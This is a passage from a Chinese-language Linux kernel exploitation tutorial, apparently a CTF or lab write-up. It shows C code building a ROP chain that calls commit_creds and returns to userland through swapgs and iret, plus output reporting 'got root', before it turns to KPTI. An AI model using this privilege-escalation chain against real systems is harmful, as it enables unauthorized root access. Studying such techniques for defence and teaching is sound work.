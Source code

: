 ```c
    payload[off++] = PopRdxRet;
    payload[off++] = 8;
    payload[off++] = CmpRdxRet;
    payload[off++] = 0;
    payload[off++] = 0xdeadbeef;
    payload[off++] = MovRdiRaxRet;
    payload[off++] = 0;
    payload[off++] = 0xdeadbeef;

    payload[off++] = commit_creds;
    payload[off++] = SwapgsRet;
    payload[off++] = 0xdeadbeef;
    
    payload[off++] = Iret;
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Build stack done");
}
```

这里从**0x5b000000-0x1000**开始获取0x2000(两页)的空间(rwx)：0x5afff000 ~ 0x5b001000，这时为了防止ROP链在调用提权函数时`栈增长`，然后还需提前向**0x5b000000~0x5afff000**写入数据引发缺页写入页表

对于`mov esp, 0x5b000000`语句会将rsp的高位置零看这里：[assembly - Why do x86-64 instructions on 32-bit registers zero the upper part of the full 64-bit register? - Stack Overflow](https://stackoverflow.com/questions/11177137/why-do-x86-64-instructions-on-32-bit-registers-zero-the-upper-part-of-the-full-6)

Result:

```bash
/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 160 bytes
[*] Cookie: 1f54c277a4ad7d00
[*] Build stack start
[*] Build stack done
[*] Prepared payload
[*] Returned to userland
[*] UID: 0, got root!
/ # 
```



## level_2 Append KPTI

KPTI全称为**Kernel page-table isolation** 页表隔离，一个进程都会有自己的一个页目录(索引所有页表)，其总主要页表组成为**程序页表和内核页表**。由**CR3**确定页目录地址，因此每个进程访问**内核资源**条件比较宽松。
